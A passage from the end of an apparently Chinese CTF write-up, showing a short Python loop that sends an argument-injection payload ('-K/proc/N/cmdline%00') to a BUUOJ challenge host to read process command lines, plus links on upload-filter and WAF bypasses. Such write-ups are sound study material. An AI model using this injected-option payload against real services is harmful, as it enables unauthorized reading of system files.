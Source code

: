 



/proc/28/cmdline



![image-20201021155722781](assets/image-20201021155722781.png)



#### 爆破脚本

```python
import requests

for i in range(1, 100):
    r = requests.get("http://81893acd-e5b6-4fa8-9b92-90ef49877eac.node3.buuoj.cn/view.php?host=-K/proc/" + str(i) + "/cmdline%00")
    print(r.text)
```





# 转载和参考资料

- [宝塔WAF绕过上传方法](http://www.0x3.biz/archives/375.html)
- [浅谈 Linux系统 proc](https://patrilic.top/2019/09/11/%E6%B5%85%E8%B0%88%20Linux%E7%B3%BB%E7%BB%9F%20Proc/)
- [N1CTF2020 DockerManager WriteUp](https://www.zhaoj.in/read-6750.html)
- [利用最新Apache解析漏洞（CVE-2017-15715）绕过上传黑名单](https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html)
- [CTF - 文件上传](https://hack-for.fun/103ec22a.html)

